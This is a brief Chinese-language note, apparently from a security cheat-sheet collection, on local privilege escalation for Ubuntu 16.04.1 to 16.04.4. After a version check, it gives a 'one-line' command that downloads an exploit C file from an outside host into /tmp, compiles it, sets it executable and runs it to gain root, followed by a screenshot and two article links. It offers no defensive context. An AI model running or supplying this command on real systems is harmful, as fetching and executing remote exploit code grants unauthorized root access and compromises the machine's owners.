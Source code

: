 #### 提权Ubuntu16.04.1-16.04.4
```
lsb_release -a 查看版本号

一句话提权
wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
```

![image.png](https://upload-images.jianshu.io/upload_images/7373593-508fd5c1e90ae371.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


相关链接：
http://mp.weixin.qq.com/s?__biz=MzU5MjEzOTM3NA==&mid=2247485209&idx=1&sn=74199be057b75d14276fb6be264fea92&chksm=fe250218c9528b0e9b5b3330d3a2e02be068c91a9b81be4a587d6579fa2e043f0833ed13acb8&mpshare=1&scene=1&srcid=0322dIBu0v8LiSLXMCYuyLx5#rd

http://mp.weixin.qq.com/s?__biz=MzAwMTUyMjQ5OA==&mid=2650965604&idx=1&sn=166a2820b6148c79ad8275cf1f672559&chksm=812e4849b659c15f68ee18dfd91c7e83c8d846a7f633be53cd139cc6cfb6a71b8b414eb43e2e&mpshare=1&scene=1&srcid=0321Qh3nXBxeTHx3zYEJ5xuN#rd